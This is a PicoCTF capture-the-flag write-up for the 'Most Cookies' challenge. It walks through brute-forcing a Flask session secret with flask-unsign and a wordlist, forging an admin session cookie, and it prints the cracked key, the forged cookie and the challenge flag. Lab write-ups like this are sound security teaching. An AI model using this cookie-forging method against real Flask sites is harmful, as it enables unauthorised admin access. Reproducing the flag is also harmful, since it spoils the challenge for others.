


# Most Cookies

This is the write-up for the challenge **"Most Cookies"** from PicoCTF.

# The Challenge

## Description
Can you engineer a session cookie to get admin access? [Challenge link](http://mercury.picoctf.net:6259/)



## Hint
> How secure is a flask cookie?

# Initial Look

When opening the challenge URL, we're presented with a basic webpage. Inspecting it using Chrome DevTools shows that a `session` cookie is set.



# How to Solve It

Based on the hint and the cookie structure, it's clear this is a Flask-signed cookie. Flask uses a secret key to sign session cookies — if we can guess or brute-force it, we can forge our own.

---

## Step 1: Install `flask-unsign`

To work with Flask cookies, we can use [`flask-unsign`](https://github.com/Paradoxis/Flask-Unsign):

```bash
pip install flask-unsign
```

---

## Step 2: Prepare a Wordlist

From the provided `server.py`, we see potential cookie flavors that might be used as secret keys. Save them to `secrets.txt`:

```txt
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
...
```

---

## Step 3: Brute-Force the Secret Key

We use `flask-unsign` to try each word in the list against the cookie we found in DevTools:

```bash
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aApEjA.velsXl_k4Tvka8YX-7-0u_tvlIQ" --wordlist secrets.txt
```

**Output:**
```
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attempts: gingersnap
```

---

## Step 4: Forge a New Cookie

Now that we have the secret key, we generate a new session cookie with elevated privileges:

```bash
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'gingersnap'
```

**Output:**
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aApFnw.Ye7a8GuH9VsrIKXMr-jLAUN8p4M
```

---

## Step 5: Replace the Cookie in the Browser

1. Open DevTools > Application > Cookies.
2. Replace the old `session` value with the new one.
3. Refresh the page.

---

# Final Result

The page now loads with admin access, and the flag is revealed! 😎

**Flag:** `picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

Cheers 😄
